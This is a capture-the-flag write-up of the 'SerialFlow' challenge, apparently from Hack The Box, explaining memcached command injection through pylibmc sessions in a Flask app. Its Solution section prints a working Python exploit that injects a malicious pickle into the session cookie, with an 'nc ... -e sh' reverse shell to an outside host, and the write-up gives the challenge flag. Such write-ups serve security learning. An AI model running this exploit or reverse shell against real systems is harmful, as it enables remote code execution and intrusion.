 # SerialFlow

## Enumeration
I was on the struggle bus for this one. We get a simple looking application which has some CSS for animations:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/20f4aa8e-2d62-45a1-9b03-4dc90f373557)

Seems to be Werkzeug and it sets up a session when we first load the page:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a894e4f8-8de5-4e59-93ad-2ea06e5adf35)

From the source code, we can tell that it expects a `uicolor` parameter to render the animation with a different color:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2d38275e-0832-4714-8d92-092f27b22499)

We can see the library it uses:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0f0f98c8-2cfe-4430-b258-bec9a8578c03)

And that it uses `pylibmc` to handle sessions via memcache:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fed97bb1-7633-4994-bd0d-e8defd1d2b6e)

At first I didn't see any vulnerabilities in the source code. Weird, I thought, maybe they made a mistake with the upload, but then I saw solves started to roll in so I had another look.  

Then I wasted a lot of time on this challenge trying to exploit memcache via unpickling. I knew it had a CVE from 2021 but that required direct access to the memcache port. So I thought, ok, we don't have direct access so maybe lets try an indirect approach. I tried to forge a session, tried passing pickled serialized data via the uicolor parameter. Nothing worked. Then a helpful advice from a friend helped. I need to refocus my attention to something else, but also memcache related. The library it uses to create and use this memcache with in the first place. 

The first google search found the exact [article](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) I needed and that in fact seems to be needed for this challenge:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/7828632f-b88d-4e78-8596-bd7c749ff3ab)

I don't really like challenges where the only way to solve it is by finding the exact, obscure, article it is based on. I tried other ways to google and in hindsight, this article was among the results, just not the first one.

## Solution

In any case, the article has a very helpful script in it which is basically our exploit. I just modified it to send the payload directly to the web application, we don't even need the uicolor parameter.

```python3
import pickle
import os
import requests

class RCE:
    def __reduce__(self):
        cmd = ('nc tcpngrok port -e sh')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

payload = generate_exploit()

requests.get('http://83.136.255.150:41262/',proxies={"http":"http://127.0.0.1:8080"}, cookies={'session':payload})
requests.get('http://83.136.255.150:41262/',proxies={"http":"http://127.0.0.1:8080"}, cookies={'session':payload})
```
And the reverse shell immediately pops up:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a0966daa-2702-4ab6-8c60-626ef5c7702c)

An interesting challenge for sure but a bit of a source of frustration.

`HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`
